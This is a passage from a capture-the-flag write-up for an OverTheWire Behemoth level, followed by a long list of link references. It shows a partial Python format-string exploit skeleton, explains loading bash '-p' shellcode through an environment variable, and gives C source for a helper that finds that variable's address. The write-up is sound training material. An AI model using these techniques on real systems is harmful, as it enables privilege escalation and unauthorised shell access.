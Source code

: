 Here's my code so far:

``` python
#!/usr/bin/env python

import struct

memory_location = 0x08049790

# I do this to convert the hex into a string...
address = struct.pack( "<I", memory_location )
address2 = struct.pack( "<I", memory_location + 2 )

offset = 6
offset2 = offset + 1

```

Okay, so we've got _some_ of the ingredients for the recipe. But we're missing the 'number' part, the actual new location of our injected [shellcode].

That's because we have to actually add the [shellcode] in and figure out the memory address of it. 

So I used [shellcode] out of the [database](../../shell-storm/) we've put together, [one that runs `execve('/bin/bash', ['/bin/bash', '-p'], NULL)`](../../shell-storm/Linux/x86/execve(-bin-bash,_[-bin-sh,_-p],_NULL).c) on [Linux]. I recommend you do the same.

And the way I loaded it into memory was actually by setting it as an [environment variable], since those are all loaded into any program that runs. That way it exists in the program's memory. Then I used another small tool, [`getenvaddr`][getenvaddr], which would find the address in the program's memory based off the name I gave the [environment variable].

You'll need to create a file for the source code of [`getenvaddr`][getenvaddr] and [compile] it on the [Behemoth] box. Here's the source:

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
        char *ptr;
        if(argc < 3) {
                printf("Usage: %s <environment var> <target program name>\n", argv[0]);
                exit(0);
        }

        ptr = getenv(argv[1]); /* Get env var location. */
        ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* Adjust for program name. */
        printf("%s will be at %p\n", argv[1], ptr);
}
```

Compile with...

```
$ gcc getenvaddr.c -m32 -o getenvaddr
```


[netcat]: https://en.wikipedia.org/wiki/Netcat
[Wikipedia]: https://www.wikipedia.org/
[Linux]: https://www.linux.com/
[man page]: https://en.wikipedia.org/wiki/Man_page
[PuTTY]: http://www.putty.org/
[ssh]: https://en.wikipedia.org/wiki/Secure_Shell
[Windows]: http://www.microsoft.com/en-us/windows
[virtual machine]: https://en.wikipedia.org/wiki/Virtual_machine
[OS]: https://en.wikipedia.org/wiki/Operating_system
[VMWare]: http://www.vmware.com/
[VirtualBox]: https://www.virtualbox.org/
[hostname]: https://en.wikipedia.org/wiki/Hostname
[port number]: https://en.wikipedia.org/wiki/Port_%28computer_networking%29
[Ubuntu]: http://www.ubuntu.com/
[ISO]: https://en.wikipedia.org/wiki/ISO_image
[standard streams]: https://en.wikipedia.org/wiki/Standard_streams
[standard output]: https://en.wikipedia.org/wiki/Standard_streams
[standard input]: https://en.wikipedia.org/wiki/Standard_streams
[read]: http://ss64.com/bash/read.html
[variable]: https://en.wikipedia.org/wiki/Variable_%28computer_science%29
[command substitution]: http://www.tldp.org/LDP/abs/html/commandsub.html
[permissions]: https://en.wikipedia.org/wiki/File_system_permissions
[redirection]: http://www.tldp.org/LDP/abs/html/io-redirection.html
[pipe]: http://www.tldp.org/LDP/abs/html/io-redirection.html
[piping]: http://www.tldp.org/LDP/abs/html/io-redirection.html
[tmp]: http://www.tldp.org/LDP/Linux-Filesystem-Hierarchy/html/tmp.html
[curl]: http://curl.haxx.se/
[cl1p.net]: https://cl1p.net/
[request]: http://www.w3.org/Protocols/rfc2616/rfc2616-sec5.html
[POST request]: https://en.wikipedia.org/wiki/POST_%28HTTP%29
[Python]: http://python.org/
[interpreter]: https://en.wikipedia.org/wiki/List_of_command-line_interpreters
[requests]: http://docs.python-requests.org/en/latest/
[urllib]: https://docs.python.org/2/library/urllib.html
[file handling with Python]: https://docs.python.org/2/tutorial/inputoutput.html#reading-and-writing-files
[bash]: https://www.gnu.org/software/bash/
[Assembly]: https://en.wikipedia.org/wiki/Assembly_language
[the stack]:  https://en.wikipedia.org/wiki/Stack_%28abstract_data_type%29
[register]: http://www.tutorialspoint.com/assembly_programming/assembly_registers.htm
[hex]: https://en.wikipedia.org/wiki/Hexadecimal
[hexadecimal]: https://en.wikipedia.org/wiki/Hexadecimal
[archive file]: https://en.wikipedia.org/wiki/Archive_file
[zip file]: https://en.wikipedia.org/wiki/Zip_%28file_format%29
[zip files]: https://en.wikipedia.org/wiki/Zip_%28file_format%29
[.zip]: https://en.wikipedia.org/wiki/Zip_%28file_format%29
[gigabytes]: https://en.wikipedia.org/wiki/Gigabyte
[GB]: https://en.wikipedia.org/wiki/Gigabyte
[GUI]: https://en.wikipedia.org/wiki/Graphical_user_interface
[Wireshark]: https://www.wireshark.org/
[FTP]: https://en.wikipedia.org/wiki/File_Transfer_Protocol
[client and server]: https://simple.wikipedia.org/wiki/Client-server
[RETR]: http://cr.yp.to/ftp/retr.html
[FTP server]: https://help.ubuntu.com/lts/serverguide/ftp-server.html
[SFTP]: https://en.wikipedia.org/wiki/SSH_File_Transfer_Protocol
[SSL]: https://en.wikipedia.org/wiki/Transport_Layer_Security
[encryption]: https://en.wikipedia.org/wiki/Encryption
[HTML]: https://en.wikipedia.org/wiki/HTML
[Flask]: http://flask.pocoo.org/
[SQL]: https://en.wikipedia.org/wiki/SQL
[and]: https://en.wikipedia.org/wiki/Logical_conjunction
[Cyberstakes]: https://cyberstakesonline.com/
[cat]: https://en.wikipedia.org/wiki/Cat_%28Unix%29
[symbolic link]: https://en.wikipedia.org/wiki/Symbolic_link
[ln]: https://en.wikipedia.org/wiki/Ln_%28Unix%29
[absolute path]: https://en.wikipedia.org/wiki/Path_%28computing%29
[CTF]: https://en.wikipedia.org/wiki/Capture_the_flag#Computer_security
[Cyberstakes]: https://cyberstakesonline.com/
[OverTheWire]: http://overthewire.org/
[Leviathan]: http://overthewire.org/wargames/leviathan/
[ls]: https://en.wikipedia.org/wiki/Ls
[grep]: https://en.wikipedia.org/wiki/Grep
[strings]: http://linux.die.net/man/1/strings
[ltrace]: http://linux.die.net/man/1/ltrace
[C]: https://en.wikipedia.org/wiki/C_%28programming_language%29
[strcmp]: http://linux.die.net/man/3/strcmp
[access]: http://pubs.opengroup.org/onlinepubs/009695399/functions/access.html
[system]: http://linux.die.net/man/3/system
[real user ID]: https://en.wikipedia.org/wiki/User_identifier
[effective user ID]: https://en.wikipedia.org/wiki/User_identifier
[brute force]: https://en.wikipedia.org/wiki/Brute-force_attack
[for loop]: https://en.wikipedia.org/wiki/For_loop
[bash programming]: http://tldp.org/HOWTO/Bash-Prog-Intro-HOWTO.html
[Behemoth]: http://overthewire.org/wargames/behemoth/
[command line]: https://en.wikipedia.org/wiki/Command-line_interface
[command-line]: https://en.wikipedia.org/wiki/Command-line_interface
[cli]: https://en.wikipedia.org/wiki/Command-line_interface
[PHP]: https://php.net/
[URL]: https://en.wikipedia.org/wiki/Uniform_Resource_Locator
[TamperData]: https://addons.mozilla.org/en-US/firefox/addon/tamper-data/
[Firefox]: https://www.mozilla.org/en-US/firefox/new/?product=firefox-3.6.8&os=osx%E2%8C%A9=en-US
[Caesar Cipher]: https://en.wikipedia.org/wiki/Caesar_cipher
[Google Reverse Image Search]: https://www.google.com/imghp
[PicoCTF]: https://picoctf.com/
[PicoCTF 2014]: https://picoctf.com/
[JavaScript]: https://www.javascript.com/
[base64]: https://en.wikipedia.org/wiki/Base64
[client-side]: https://en.wikipedia.org/wiki/Client-side_scripting
[client side]: https://en.wikipedia.org/wiki/Client-side_scripting
[javascript:alert]: http://www.w3schools.com/js/js_popup.asp
[Java]: https://www.java.com/en/
[2147483647]: https://en.wikipedia.org/wiki/2147483647_%28number%29
[XOR]: https://en.wikipedia.org/wiki/Exclusive_or
[XOR cipher]: https://en.wikipedia.org/wiki/XOR_cipher
[quipqiup.com]: http://www.quipqiup.com/
[PDF]: https://en.wikipedia.org/wiki/Portable_Document_Format
[pdfimages]: http://linux.die.net/man/1/pdfimages
[ampersand]: https://en.wikipedia.org/wiki/Ampersand
[URL encoding]: https://en.wikipedia.org/wiki/Percent-encoding
[Percent encoding]: https://en.wikipedia.org/wiki/Percent-encoding
[URL-encoding]: https://en.wikipedia.org/wiki/Percent-encoding
[Percent-encoding]: https://en.wikipedia.org/wiki/Percent-encoding
[endianness]: https://en.wikipedia.org/wiki/Endianness
[ASCII]: https://en.wikipedia.org/wiki/ASCII
[struct]: https://docs.python.org/2/library/struct.html
[pcap]: https://en.wikipedia.org/wiki/Pcap
[packet capture]: https://en.wikipedia.org/wiki/Packet_analyzer
[HTTP]: https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol
[Wireshark filters]: https://wiki.wireshark.org/DisplayFilters
[SSL]: https://en.wikipedia.org/wiki/Transport_Layer_Security
[Assembly]: https://en.wikipedia.org/wiki/Assembly_language
[Assembly Syntax]: https://en.wikipedia.org/wiki/X86_assembly_language#Syntax
[Intel Syntax]: https://en.wikipedia.org/wiki/X86_assembly_language
[Intel or AT&T]: http://www.imada.sdu.dk/Courses/DM18/Litteratur/IntelnATT.htm
[AT&T syntax]: https://en.wikibooks.org/wiki/X86_Assembly/GAS_Syntax
[GET request]: https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Request_methods
[GET requests]: https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Request_methods
[IP Address]: https://en.wikipedia.org/wiki/IP_address
[IP Addresses]: https://en.wikipedia.org/wiki/IP_address
[MAC Address]: https://en.wikipedia.org/wiki/MAC_address
[session]: https://en.wikipedia.org/wiki/Session_%28computer_science%29
[Cookie Manager+]: https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/
[hexedit]: http://linux.die.net/man/1/hexedit
[Google]: http://google.com/
[Scapy]: http://www.secdev.org/projects/scapy/
[ARP]: https://en.wikipedia.org/wiki/Address_Resolution_Protocol
[UDP]: https://en.wikipedia.org/wiki/User_Datagram_Protocol
[SQL injection]: https://en.wikipedia.org/wiki/SQL_injection
[sqlmap]: http://sqlmap.org/
[sqlite]: https://www.sqlite.org/
[MD5]: https://en.wikipedia.org/wiki/MD5
[OpenSSL]: https://www.openssl.org/
[NULL character]: https://en.wikipedia.org/wiki/Null_character
[Format String Vulnerability]: http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf
[printf]: http://pubs.opengroup.org/onlinepubs/009695399/functions/fprintf.html
[argument]: https://en.wikipedia.org/wiki/Parameter_%28computer_programming%29
[arguments]: https://en.wikipedia.org/wiki/Parameter_%28computer_programming%29
[parameter]: https://en.wikipedia.org/wiki/Parameter_%28computer_programming%29
[parameters]: https://en.wikipedia.org/wiki/Parameter_%28computer_programming%29
[Vortex]: http://overthewire.org/wargames/vortex/
[socket]: https://docs.python.org/2/library/socket.html
[file descriptor]: https://en.wikipedia.org/wiki/File_descriptor
[file descriptors]: https://en.wikipedia.org/wiki/File_descriptor
[Forth]: https://en.wikipedia.org/wiki/Forth_%28programming_language%29
[github]: https://github.com/
[buffer overflow]: https://en.wikipedia.org/wiki/Buffer_overflow
[try harder]: https://www.offensive-security.com/when-things-get-tough/
[segmentation fault]: https://en.wikipedia.org/wiki/Segmentation_fault
[seg fault]: https://en.wikipedia.org/wiki/Segmentation_fault
[segfault]: https://en.wikipedia.org/wiki/Segmentation_fault
[shellcode]: https://en.wikipedia.org/wiki/Shellcode
[sploit-tools]: https://github.com/SaltwaterC/sploit-tools
[Kali]: https://www.kali.org/
[Kali Linux]: https://www.kali.org/
[gdb]: https://www.gnu.org/software/gdb/
[gdb tutorial]: http://www.unknownroad.com/rtfm/gdbtut/gdbtoc.html
[payload]: https://en.wikipedia.org/wiki/Payload_%28computing%29
[peda]: https://github.com/longld/peda
[git]: https://git-scm.com/
[home directory]: https://en.wikipedia.org/wiki/Home_directory
[NOP]: https://en.wikipedia.org/wiki/NOP
[examine]: https://sourceware.org/gdb/onlinedocs/gdb/Memory.html
[stack pointer]: http://stackoverflow.com/questions/1395591/what-is-exactly-the-base-pointer-and-stack-pointer-to-what-do-they-point
[little endian]: https://en.wikipedia.org/wiki/Endianness
[big endian]: https://en.wikipedia.org/wiki/Endianness
[endianness]: https://en.wikipedia.org/wiki/Endianness
[pack]: https://docs.python.org/2/library/struct.html#struct.pack
[dash]: https://en.wikipedia.org/wiki/Almquist_shell
[shell]: https://en.wikipedia.org/wiki/Shell_%28computing%29
[pwntools]: https://github.com/Gallopsled/pwntools
[colorama]: https://pypi.python.org/pypi/colorama
[objdump]: https://en.wikipedia.org/wiki/Objdump
[UPX]: http://upx.sourceforge.net/
[64-bit]: https://en.wikipedia.org/wiki/64-bit_computing
[breakpoint]: https://en.wikipedia.org/wiki/Breakpoint
[stack frame]: http://www.cs.umd.edu/class/sum2003/cmsc311/Notes/Mips/stack.html
[format string]: http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html
[format specifiers]: http://web.eecs.umich.edu/~bartlett/printf.html
[format specifier]: http://web.eecs.umich.edu/~bartlett/printf.html
[variable expansion]: https://www.gnu.org/software/bash/manual/html_node/Shell-Parameter-Expansion.html
[base pointer]: http://stackoverflow.com/questions/1395591/what-is-exactly-the-base-pointer-and-stack-pointer-to-what-do-they-point
[dmesg]: https://en.wikipedia.org/wiki/Dmesg
[Android]: https://www.android.com/
[decompiler]: https://en.wikipedia.org/wiki/Decompiler
[decompile Java code]: http://www.javadecompilers.com/
[jadx]: https://github.com/skylot/jadx
[.img]: https://en.wikipedia.org/wiki/IMG_%28file_format%29
[binwalk]: http://binwalk.org/
[JPEG]: https://en.wikipedia.org/wiki/JPEG
[JPG]: https://en.wikipedia.org/wiki/JPEG
[disk image]: https://en.wikipedia.org/wiki/Disk_image
[foremost]: http://foremost.sourceforge.net/
[eog]: https://wiki.gnome.org/Apps/EyeOfGnome
[function pointer]: https://en.wikipedia.org/wiki/Function_pointer
[machine code]: https://en.wikipedia.org/wiki/Machine_code
[compiled language]: https://en.wikipedia.org/wiki/Compiled_language
[compiler]: https://en.wikipedia.org/wiki/Compiler
[compile]: https://en.wikipedia.org/wiki/Compiler
[scripting language]: https://en.wikipedia.org/wiki/Scripting_language
[shell-storm.org]: http://shell-storm.org/
[shellcode database]: http://shell-storm.org/shellcode/
[gdb-peda]: https://github.com/longld/peda
[x86]: https://en.wikipedia.org/wiki/X86
[Intel x86]: https://en.wikipedia.org/wiki/X86
[sh]: https://en.wikipedia.org/wiki/Bourne_shell
[/bin/sh]: https://en.wikipedia.org/wiki/Bourne_shell
[SANS]: https://www.sans.org/
[Holiday Hack Challenge]: https://holidayhackchallenge.com/
[USCGA]: http://uscga.edu/
[United States Coast Guard Academy]: http://uscga.edu/
[US Coast Guard Academy]: http://uscga.edu/
[Academy]: http://uscga.edu/
[Coast Guard Academy]: http://uscga.edu/
[Hackfest]: https://www.sans.org/event/pen-test-hackfest-2015
[SSID]: https://en.wikipedia.org/wiki/Service_set_%28802.11_network%29
[DNS]: https://en.wikipedia.org/wiki/Domain_Name_System
[Python:base64]: https://docs.python.org/2/library/base64.html
[OpenWRT]: https://openwrt.org/
[node.js]: https://nodejs.org/en/
[MongoDB]: https://www.mongodb.org/
[Mongo]: https://www.mongodb.org/
[SuperGnome 01]: http://52.2.229.189/
[Shodan]: https://www.shodan.io/
[SuperGnome 02]: http://52.34.3.80/
[SuperGnome 03]: http://52.64.191.71/
[SuperGnome 04]: http://52.192.152.132/
[SuperGnome 05]: http://54.233.105.81/
[Local file inclusion]: http://hakipedia.com/index.php/Local_File_Inclusion
[LFI]: http://hakipedia.com/index.php/Local_File_Inclusion
[PNG]: http://www.libpng.org/pub/png/
[.png]: http://www.libpng.org/pub/png/
[Remote Code Execution]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[RCE]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[GNU]: https://www.gnu.org/
[regular expression]: https://en.wikipedia.org/wiki/Regular_expression
[regular expressions]: https://en.wikipedia.org/wiki/Regular_expression
[uniq]: https://en.wikipedia.org/wiki/Uniq
[sort]: https://en.wikipedia.org/wiki/Sort_%28Unix%29
[binary data]: https://en.wikipedia.org/wiki/Binary_data
[binary]: https://en.wikipedia.org/wiki/Binary
[Firebug]: http://getfirebug.com/
[SHA1]: https://en.wikipedia.org/wiki/SHA-1
[SHA-1]: https://en.wikipedia.org/wiki/SHA-1
[Linux]: https://www.linux.com/
[Ubuntu]: http://www.ubuntu.com/
[Kali Linux]: https://www.kali.org/
[Over The Wire]: http://overthewire.org/wargames/
[OverTheWire]: http://overthewire.org/wargames/
[Micro Corruption]: https://microcorruption.com/
[Smash The Stack]: http://smashthestack.org/
[CTFTime]: https://ctftime.org/
[Writeups]: https://ctftime.org/writeups
[Competitions]: https://ctftime.org/event/list/upcoming
[Skull Security]: https://wiki.skullsecurity.org/index.php?title=Main_Page
[MITRE]: http://mitrecyberacademy.org/
[Trail of Bits]: https://trailofbits.github.io/ctf/
[Stegsolve]: http://www.caesum.com/handbook/Stegsolve.jar
[Steghide]: http://steghide.sourceforge.net/
[IDA Pro]: https://www.hex-rays.com/products/ida/
[Wireshark]: https://www.wireshark.org/
[Bro]: https://www.bro.org/
[Meterpreter]: https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/
[Metasploit]: http://www.metasploit.com/
[Burpsuite]: https://portswigger.net/burp/
[xortool]: https://github.com/hellman/xortool
[sqlmap]: http://sqlmap.org/
[VMWare]: http://www.vmware.com/
[VirtualBox]: https://www.virtualbox.org/wiki/Downloads
[VBScript Decoder]: https://gist.github.com/bcse/1834878
[quipqiup.com]: http://quipqiup.com/
[EXIFTool]: http://www.sno.phy.queensu.ca/~phil/exiftool/
[Scalpel]: https://github.com/sleuthkit/scalpel
[Ryan's Tutorials]: http://ryanstutorials.net
[Linux Fundamentals]: http://linux-training.be/linuxfun.pdf
[USCGA]: http://uscga.edu
[Cyberstakes]: https://cyberstakesonline.com/
[Crackmes.de]: http://crackmes.de/
[Nuit Du Hack]: http://wargame.nuitduhack.com/
[Hacking-Lab]: https://www.hacking-lab.com/index.html
[FlareOn]: http://www.flare-on.com/
[The Second Extended Filesystem]: http://www.nongnu.org/ext2-doc/ext2.html
[GIF]: https://en.wikipedia.org/wiki/GIF
[PDFCrack]: http://pdfcrack.sourceforge.net/index.html
[Hexcellents CTF Knowledge Base]: http://security.cs.pub.ro/hexcellents/wiki/home
[GDB]: https://www.gnu.org/software/gdb/
[The Linux System Administrator's Guide]: http://www.tldp.org/LDP/sag/html/index.html
[aeskeyfind]: https://citp.princeton.edu/research/memory/code/
[rsakeyfind]: https://citp.princeton.edu/research/memory/code/
[Easy Python Decompiler]: http://sourceforge.net/projects/easypythondecompiler/
[factordb.com]: http://factordb.com/
[Volatility]: https://github.com/volatilityfoundation/volatility
[Autopsy]: http://www.sleuthkit.org/autopsy/
[ShowMyCode]: http://www.showmycode.com/
[HTTrack]: https://www.httrack.com/
[theHarvester]: https://github.com/laramies/theHarvester
[Netcraft]: http://toolbar.netcraft.com/site_report/
[Nikto]: https://cirt.net/Nikto2
[PIVOT Project]: http://pivotproject.org/
[InsomniHack PDF]: http://insomnihack.ch/wp-content/uploads/2016/01/Hacking_like_in_the_movies.pdf
[radare]: http://www.radare.org/r/
[radare2]: http://www.radare.org/r/
[foremost]: https://en.wikipedia.org/wiki/Foremost_%28software%29
[ZAP]: https://github.com/zaproxy/zaproxy
[Computer Security Student]: https://www.computersecuritystudent.com/HOME/index.html
[Vulnerable Web Page]: http://testphp.vulnweb.com/
[Hipshot]: https://bitbucket.org/eliteraspberries/hipshot
[John the Ripper]: https://en.wikipedia.org/wiki/John_the_Ripper
[hashcat]: http://hashcat.net/oclhashcat/
[fcrackzip]: http://manpages.ubuntu.com/manpages/hardy/man1/fcrackzip.1.html
[Whitehatters Academy]: https://www.whitehatters.academy/
[gn00bz]: http://gnoobz.com/
[Cybrary]: https://www.cybrary.it/
[Obum Chidi]: https://obumchidi.wordpress.com/
[ksnctf]: http://ksnctf.sweetduet.info/
[ToolsWatch]: http://www.toolswatch.org/category/tools/
[Nandy Narwhals]: http://nandynarwhals.org/
[CTFHacker]: http://ctfhacker.com/
[Tasteless]: http://tasteless.eu/
[Dragon Sector]: http://blog.dragonsector.pl/
[pwnable.kr]: http://pwnable.kr/
[reversing.kr]: http://reversing.kr/
[DVWA]: http://www.dvwa.co.uk/
[Damn Vulnerable Web App]: http://www.dvwa.co.uk/
[b01lers]: https://b01lers.net/
[Capture the Swag]: https://ctf.rip/
[pointer]: https://en.wikipedia.org/wiki/Pointer_%28computer_programming%29
[call stack]: https://en.wikipedia.org/wiki/Call_stack
[return statement]: https://en.wikipedia.org/wiki/Return_statement
[return address]: https://en.wikipedia.org/wiki/Return_statement
[disassemble]: https://en.wikipedia.org/wiki/Disassembler
[less]: https://en.wikipedia.org/wiki/Less_%28Unix%29
[puts]: http://pubs.opengroup.org/onlinepubs/009695399/functions/puts.html
[disassembly]: https://en.wikibooks.org/wiki/X86_Disassembly
[PLT]: https://www.technovelty.org/linux/plt-and-got-the-key-to-code-sharing-and-dynamic-libraries.html
[Procedure Lookup Table]: http://reverseengineering.stackexchange.com/questions/1992/what-is-plt-got
[environment variable]: https://en.wikipedia.org/wiki/Environment_variable
[getenvaddr]: https://code.google.com/p/protostar-solutions/source/browse/Stack+6/getenvaddr.c?r=3d0a6873d44901d63caf9ad3764cfb9ab47f3332
[getenvaddr.c]: https://code.google.com/p/protostar-solutions/source/browse/Stack+6/getenvaddr.c?r=3d0a6873d44901d63caf9ad3764cfb9ab47f3332